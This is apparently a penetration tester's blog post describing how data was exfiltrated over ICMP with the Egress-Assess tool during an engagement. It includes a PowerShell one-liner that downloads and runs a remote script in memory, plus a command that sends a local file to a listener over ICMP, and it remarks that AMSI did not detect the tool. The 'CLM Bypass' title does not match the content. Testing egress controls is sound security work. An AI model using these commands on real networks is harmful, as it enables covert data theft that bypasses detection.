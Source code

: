 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


I recently had a situation during an engagement where i needed to demonstrate that data could be extracted from the organisation. I wanted to exfil data without going over the internet for security as well as for ease of use duing the engagement and speed.
The VPN when connected, and as expected, didn't allow local access as all routing went through the established tunnel first. However when the tunnel was disconnected the firewall would block all TCP and UDP access but would allow ICMP traffic to local subnets.
This then led me to look into ICMP tunneling. I found various ways of gaining a reverse shell however data exfiltration was more tricky - this is where Egress Assess comes in.   
From the Github Page -> [https://github.com/FortyNorthSecurity/Egress-Assess](https://github.com/FortyNorthSecurity/Egress-Assess)
"Egress-Assess is a tool used to test egress data detection capabilities."

Egress-Assess has many use cases for confirming if data can be extracted out of the network including HTTP, SMB, ICMP and more. It also has PowerShell and Python implementations for both server and client. This is good for us as its unliekly that we normally have PowerShell access on Windows based systems.
Another great feature is that the client doesnt require local administrative privileges to run.
During testing it was also noted that as from the time of testing amsi didnt detect the client software as malicous or blocked the traffic as suspicous.

The setup uses a tradtional client / Server design. The server does require local admin rights. My setup was a Debian 10 Box with a Windows 10 client.

* Server (Debian) - 192.168.1.50
* Client (Win 10) - 192.168.1.239


Again from the Github Page, ICMP - The data is broken up into bytes and base64 encoded and sent over the wire in an ICMP Type 8 ECHO request. the data is placed inside the data field of the packet. The ECHO requests are continuously made to the EgressAsess Server which receives the ICMP request and gathers the data and decodes it.

To start firstly, confirm that you can send and receive ICMP echo requests and Responses bi-directionally.

Once confirmed, on the server, first clone down the repository.

```
git clone https://github.com/FortyNorthSecurity/Egress-Assess.git
```

Next run the setup.sh from within the setup folder to install the necessasary files.
Fix any errors if you get any before continuing.

```
./setup/.setup.sh
```

Next start the server with the ICMP fetaures enabled:

```
python Egress-Assess.py --server icmp --ip 192.168.1.50

```
If the server has started correctly you should see the following:
![img-description](/images/icmp-4.JPG)
_ICMP Server Started & waiting for connections_

Next you can either download the file onto the client, or run it in memory directly.

```
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/FortyNorthSecurity/Egress-Assess/master/EgressAssess.ps1')
```

Next, you have two main options. You either user the built-in audit tools that will create dummy data to mimic sensitive information such as Social Security Numbers / Credit Cards, OR you can specify specfic custom files.

I decided to create my own very simple file to understand how it was being tranferred. I did this by creating a file with some basic text inside on the client.

```
echo "Super Secret Info to Extract" > SuperSecretData.txt
```

We specify the File we want using the "-DataType" argument. ( You could also put "-DataType cc" for CreditCard.

![img-description](/images/icmp-9.JPG)
_Sending a file though an ICMP Packet_


```
Invoke-EgressAssess -client icmp -ip 192.168.1.50 -Datatype 'C:\Videos\SuperSecretData.txt' -Verbose
```

By using the "-Verbose" argument we can see that the connection was sucessful and that the client has indicated that the file was sucessfully sent.

On the server we can see a message confirming that the file has been recieved as expected.

![img-description](/images/icmp-10.JPG)
_File Received on Server_

![img-description](/images/icmp-11.JPG)
_File Received on Server_


To confirm how this worked, we can see in Wireshark that the data is indeed base64 encoded.
![img-description](/images/icmp-12.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_
![img-description](/images/icmp-13.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_

Therefore if we decode the base 64 we can see our message as expected and confirm how the data was transferred.
![img-description](/images/icmp-14.JPG)


